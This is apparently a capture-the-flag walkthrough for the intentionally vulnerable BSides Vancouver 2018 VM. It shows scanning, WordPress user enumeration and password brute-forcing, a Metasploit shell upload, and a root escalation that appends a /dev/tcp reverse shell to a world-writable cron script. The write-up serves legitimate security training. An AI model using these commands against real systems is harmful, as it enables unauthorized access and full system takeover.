



# CTF Writeup : Besides_Vancouver2018

Besides_Vancouver2018 is a linux VM , that has several vulnerabilities, written by [*abatchy*](https://www.vulnhub.com/author/abatchy,393/). You can find it at [Vulnhub](https://www.vulnhub.com/entry/bsides-vancouver-2018-workshop,231/).

Boot2root challenges aim to create a safe environment where you can perform real-world penetration testing on an (intentionally) vulnerable target.

## Discovery

First we do host discovery scan at our network.



We can see there's a working http service.




Let's try to apply dictionary attack against server content, using **dirb** tool.

```
root@kali:~# dirb http://192.168.1.8/
```

See that ! There're 7 objects.
```
---- Scanning URL: http://192.168.1.8/ ----
+ http://192.168.1.8/.bash_history (CODE:200|SIZE:1090)
+ http://192.168.1.8/cgi-bin/ (CODE:403|SIZE:288)  
+ http://192.168.1.8/index (CODE:200|SIZE:177)      
+ http://192.168.1.8/index.html (CODE:200|SIZE:177)
+ http://192.168.1.8/robots (CODE:200|SIZE:43)       
+ http://192.168.1.8/robots.txt (CODE:200|SIZE:43)
+ http://192.168.1.8/server-status (CODE:403|SIZE:293)
```

## Scanning

It's time to start automaic scanner for potential problems and security vulnerabilities, nikto can handle that!
```
root@kali:~# nikto -h 192.168.1.8
```
Here's output.
```
+ Server: Apache/2.2.22 (Ubuntu)
+ Server leaks inodes via ETags, header found with file /, inode: 2140, size: 177, mtime: Sat Mar  3 21:17:59 2018
+ The anti-clickjacking X-Frame-Options header is not present.
+ The X-XSS-Protection header is not defined. This header can hint to the user agent to protect against some forms of XSS
+ The X-Content-Type-Options header is not set. This could allow the user agent to render the content of the site in a different fashion to the MIME type
+ Retrieved x-powered-by header: PHP/5.3.10-1ubuntu3.26
+ Uncommon header 'link' found, with contents: </backup_wordpress/?rest_route=/>; rel="https://api.w.org/"
+ Entry '/backup_wordpress/' in robots.txt returned a non-forbidden or redirect HTTP code (200)
+ "robots.txt" contains 1 entry which should be manually viewed.
```

Here's the directory /backup_wordpress is of interest, it seems to be the home directory of a wordpress blog.

What about the users login !
```
root@kali:~# wpscan --url http://192.168.1.8/backup_wordpress --enumerate u
```
```
[+] Identified the following 2 user/s:
    +----+-------+------+
    | Id | Login | Name |
    +----+-------+------+
    | 1  | admin | admi |
    | 2  | john  | joh  |
    +----+-------+------+
```

**Admin** and **john** , are valid logins here. Thanks you WordPress !

Now let’s see if we can get even luckier with brute-forcing the password.

```
root@kali:~# wpscan --url http://192.168.1.8/backup_wordpress --wordlist /usr/share/wordlists/dirb/big.txt --thread 2
```



Awesome ! unknown response for login: **john** and password: **enigma**.

With access to the WordPress account , we can now upload anything to the server and have it run .
Get shell out of this seems very awesome !

Metasploit Framework can help us to handle this scenario.

## Exploitation
```
msf > use unix/webapp/wp_admin_shell_upload
```

Editing module's options; login, password, rhost and targeturi (since WordPress is not located in /var/www/html)


```
msf exploit(unix/webapp/wp_admin_shell_upload) > set USERNAME john
USERNAME => john
msf exploit(unix/webapp/wp_admin_shell_upload) > set PASSWORD enigma
PASSWORD => enigma
msf exploit(unix/webapp/wp_admin_shell_upload) > set TARGETURI /backup_wordpress
TARGETURI => /backup_wordpress
msf exploit(unix/webapp/wp_admin_shell_upload) > set RHOST 192.168.1.8
RHOST => 192.168.1.8
msf exploit(unix/webapp/wp_admin_shell_upload) > exploit
```

With correct options' parameters , you will gain meterpreter shell.

```
meterpreter > shell
python -c 'import pty; pty.spawn("/bin/bash")'
```
```
www-data@bsides2018:/var/www/backup_wordpress/wp-content/plugins/IVLUgBLIBB$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

Now we spawn a bash shell and get into the system. But we need **root** access !

I suggest scanning for privilege escalation, by running **unix-privesc-check** on remote host,we can see if there're vulnerabilities. Let's upload the file to a running apache server on local host.
```
root@kali:~# service apache2 start
www-data@bsides2018:/tmp$ wget http://192.168.1.7/unix-privesc-check
```

Search the output below for the word 'WARNING'.  If you don't see it then
```
www-data@bsides2018:/tmp$ ./unix-privesc-check standard
WARNING: /usr/local/bin/cleanup is run from crontab as root. World write is set for /usr/local/bin/cleanup
```
Good job ! We found a privilege escalation scenario .

```
www-data@bsides2018:/tmp$ ls -l /usr/local/bin
-rwxrwxrwx 1 root root 55 May 24 05:54 cleanup
```

The file has execution, modification permissions and ownrship of root. After exploring crontab , I've seen that the cleanup file is executed every one minute.

```
# m h dom mon dow user	 command
*  *    * * *     root    /usr/local/bin/cleanup
```

Our target now is to forward a reverse shell to gain root access.
So , start listening for that forwarded shell.

```
root@kali:~# nc -lvvp 55555
```

Hence, edit the targeted file (cleanup) to start forwarding.
```
www-data@bsides2018:/usr/local/bin$ echo 'bash -i >& /dev/tcp/192.168.1.7/55555 0>&1' >> cleanup
```

The '**>&**' to initialize interactive shell and '**0>&1**' to swap stdin into stdout. Linux has built-in tcp forwarding ,hence we supply the attacker host IP with listening port.

Eventually, congratulations ! You gain root access.
```
root@bsides2018:~# id
uid=0(root) gid=0(root) groups=0(root)
```
```
root@bsides2018:~# cat flag.txt
Congratulations!

If you can read this, that means you were able to obtain root permissions on this VM.
You should be proud!

There are multiple ways to gain access remotely, as well as for privilege escalation.
Did you find them all?

@abatchy17
```
